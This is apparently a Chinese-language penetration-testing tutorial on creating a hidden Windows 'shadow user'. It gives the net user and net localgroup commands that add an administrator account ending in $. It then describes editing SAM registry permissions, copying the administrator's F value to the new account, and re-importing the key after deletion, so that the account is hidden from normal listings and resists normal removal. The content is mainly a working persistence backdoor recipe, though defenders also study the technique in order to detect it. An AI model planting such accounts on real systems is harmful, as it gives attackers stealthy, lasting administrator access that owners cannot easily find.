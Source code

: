 ```yaml
---
title: 影子用户
id: zhfly3517
---
```


## 影子用户

影子用户顾名思义就是一个隐藏用户，只能通过注册表查看这个用户，其它方式是找不到这个用户的信息的

在用户名后面加一个`$`可以创建一个匿名用户，创建完毕后我们再把这个用户添加到administrator组

```
net user test$ test /add
net localgroup administrators test$ /add 
```

可以看到`net user`是看不到我们创建的用户，但是计算机管理-用户和组中可以看到

![image](../img/71fe4e6629ff96954695c8f5425caa2b.png)

所以这时候我们就需要修改一下注册表，其键位置为：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`

注意：`SAM`键值默认是只能`system`权限修改的，所以我们要修改一下`SAM`键的权限，给予`administrator`完全控制和读取的权限

![image](../img/a422356c91eade660a1e3cb4cd9a3f6c.png)

然后我们将`administrator`用户对应的项中的F值复制到`test$`对应xiang中的F值，然后保存

![image](../img/ed1f2ac2b922e84e5eb0c949afffa086.png)

然后我们将`test$`删除掉

```
net user test$ /del 
```

然后再双击导出的注册表文件，然后我们再看一下

![image](../img/0b97336218752bccfc27faeb30175281.png)

`net user`和计算机管理-用户和组中都查看不到用户了，但是我们可以用`net user test$`查看用户信息

这个时候我们再用`net user test$ /del`是删除不掉这个用户的，只能通过注册表来删除。